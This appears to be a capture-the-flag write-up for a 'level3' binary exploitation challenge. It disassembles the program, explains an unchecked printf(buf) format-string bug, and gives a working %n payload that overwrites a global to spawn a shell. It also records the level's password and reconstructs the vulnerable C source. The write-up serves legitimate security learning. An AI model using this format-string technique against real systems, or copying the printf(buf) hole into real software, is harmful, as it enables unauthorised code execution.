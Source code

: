 ## level3 TODO NOTES
Below is the `objdump` of the level3 program
```
080484a4 <v>:
 80484a4:       55                      push   ebp
 80484a5:       89 e5                   mov    ebp,esp
 80484a7:       81 ec 18 02 00 00       sub    esp,0x218
 80484ad:       a1 60 98 04 08          mov    eax,ds:0x8049860
 80484b2:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80484b6:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 80484bd:       00
 80484be:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484c4:       89 04 24                mov    DWORD PTR [esp],eax
 80484c7:       e8 d4 fe ff ff          call   80483a0 <fgets@plt>
 80484cc:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484d2:       89 04 24                mov    DWORD PTR [esp],eax
 80484d5:       e8 b6 fe ff ff          call   8048390 <printf@plt>
 80484da:       a1 8c 98 04 08          mov    eax,ds:0x804988c
 80484df:       83 f8 40                cmp    eax,0x40
 80484e2:       75 34                   jne    8048518 <v+0x74>
 80484e4:       a1 80 98 04 08          mov    eax,ds:0x8049880
 80484e9:       89 c2                   mov    edx,eax
 80484eb:       b8 00 86 04 08          mov    eax,0x8048600
 80484f0:       89 54 24 0c             mov    DWORD PTR [esp+0xc],edx
 80484f4:       c7 44 24 08 0c 00 00    mov    DWORD PTR [esp+0x8],0xc
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    mov    DWORD PTR [esp+0x4],0x1
 8048503:       00
 8048504:       89 04 24                mov    DWORD PTR [esp],eax
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt>
 804850c:       c7 04 24 0d 86 04 08    mov    DWORD PTR [esp],0x804860d
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt>
 8048518:       c9                      leave
 8048519:       c3                      ret

0804851a <main>:
 804851a:       55                      push   ebp
 804851b:       89 e5                   mov    ebp,esp
 804851d:       83 e4 f0                and    esp,0xfffffff0
 8048520:       e8 7f ff ff ff          call   80484a4 <v>
 8048525:       c9                      leave
 8048526:       c3                      ret
 8048527:       90                      nop
 8048528:       90                      nop
 8048529:       90                      nop
 804852a:       90                      nop
 804852b:       90                      nop
 804852c:       90                      nop
 804852d:       90                      nop
 804852e:       90                      nop
 804852f:       90                      nop
 ```
 Looks lke a typical main function call at `0804851a`, with the stack alignment and a function call to `v`.
 
 In `v`, Some space are allocated to the stack, it 
 1. Creates a buffer of 0x208 (520) size. Loads `stdin` from the data segmanet, prepares to call fgets to read from stdin of 0x200 (512) bytes into the buffer
 2. Prints the buffer using printf
 3. loads a data segment 0x804988c (global static at that address), and compares it to 0x40 (64)
     - If they are not equal, 
         1. return
    - If they are equal
        1. Prepare arguments for `frwite("Wait what?", 0xc, 0x1, stdout)` 
        2. `system("/bin/sh")`

Looks quite straightforward, we need to find a wait to overwrite the instruction at address `0x804988c` to `0x40` to trigger the shell. I tried an insanely long buffer but it didnt work, the address still cant be overwritten becuase fgets only accept up to 200 charcaters.

I also noticed that the printf call after fgets is using the buffer as the first argument `[ebp-0x208]` as supposed to a format string, which leaves us the oppurtinuty for a **format string exploit**

Section 0x354 of this [this book](https://repo.zenk-security.com/Magazine%20E-book/Hacking-%20The%20Art%20of%20Exploitation%20(2nd%20ed.%202008)%20-%20Erickson.pdf) gives a detailed explanation on how this works.

In this particular example here, if the printf function takes a string `%s` as the first argument and the user input as the second, the output is identical to the first attempt which is expected behaviour.

However if the printf call takes the user input as the first argument, we will see output similar to the second attempt. This is becase when **we include format arguments in the string, it will try to take action and read from the stack**. 
![image](https://hackmd.io/_uploads/HkJUNuFBT.png)

![image](https://hackmd.io/_uploads/r1D4tutSa.png)

To this this, i decided to look into this on my own at the program. I tried to print out the next few items on the stack as hex and this is what I got.

![image](https://hackmd.io/_uploads/SJEaFdKST.png)

I inspected the address and indeed, I do see some values which correspond the stack, like the size 0x200 from fgets earlier, the stdin struct that was pushed by fgets.

![image](https://hackmd.io/_uploads/r1HxodtHa.png)

The stack also contained data from libc_memalogn, but as of now im bot sure where the source is from.

In printf, there is a specific format specifier **`%n` that writes how many bytes have been printed out so far to a va_arg**. Since we know we can access memory addresses using other format specifiers, The strategy is to format printf to print enough characters to reach the `0x804988c` mark and write the value 64 to it. If we notice in the output `BBBBBB 200 b7fd1ac0 b7ff37d0 42424242 25204242 78252078`, the `BBBBBB` segment is also stored in the stack after 8 bytes as `42424242`, and after specifying %x 3 times. 

To access the same address, we can replace `BBBBBB` with the actual hex address `0x804988c` , specify format %x 3 times and use %n formatter to write to the data in that address.

So our input will be something like 
`python -c "print '\x08\x04\x98\x8c'[::-1] + '%x %x %x %n'" > /tmp/hello`.

After running the input, we are able to see that `0x804988c` had been overwritten. Now, we need to make it so that we are able to overwrite to the value 64. 
![image](https://hackmd.io/_uploads/Bk8VUctSa.png)

To do that, I tried to add more characters before the %n ` python -c "print '\x08\x04\x98\x8c'[::-1] + 'B' * 38 + '%x %x %x %n'" > /tmp/hello` and I got the Wait What message in the stdout, which means now all i nede to do is to keep stdin open
![image](https://hackmd.io/_uploads/rkJEP5tSa.png)

Im in the shell, and the password is `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`
![image](https://hackmd.io/_uploads/r1nKwqYr6.png)

Using the steps above, the source code should be 
```clike=
#include <stdio.h>
#include <stdlib.h>

static int	g_var = 0;
void v()
{
    // 80484a7
    char buf[512];
    
    // 80484c7
    fgets(buf, 512, stdin);
    
    // 80484d5
    printf(buf);
    if (g_var != 0x40)
        return;
    
    // 8048507
    fwrite("Wait what?!", 0xc, 0x1, stdout);
    system("/bin/sh");
}

int main()
{
    v();
}
```